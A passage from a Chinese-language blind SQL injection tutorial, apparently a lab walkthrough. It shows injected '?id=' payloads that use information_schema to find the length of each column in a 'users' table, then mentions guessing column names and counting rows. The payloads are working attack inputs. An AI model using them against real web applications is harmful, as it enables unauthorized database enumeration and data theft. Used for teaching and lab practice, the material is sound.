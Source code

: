 ![](assets/1707473863-7939481e2619c4f29a94dd89bf3ae14c.png)  
再来判断每个列的长度

```php
第一个列长度为2
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 0,1))=2 --+

第二个列长度为8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 1,1))=8 --+

第三个列长度为8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 2,1))=8 --+
```

再用同样的方法猜解列的名字，这里以第二个列为例，列名为 username  
![](assets/1707473863-f533e6662d285d0ed0cbac8df08e965f.png)  
下面还是如法炮制，判断列中有多少数据，我们可以使用`count(*)`
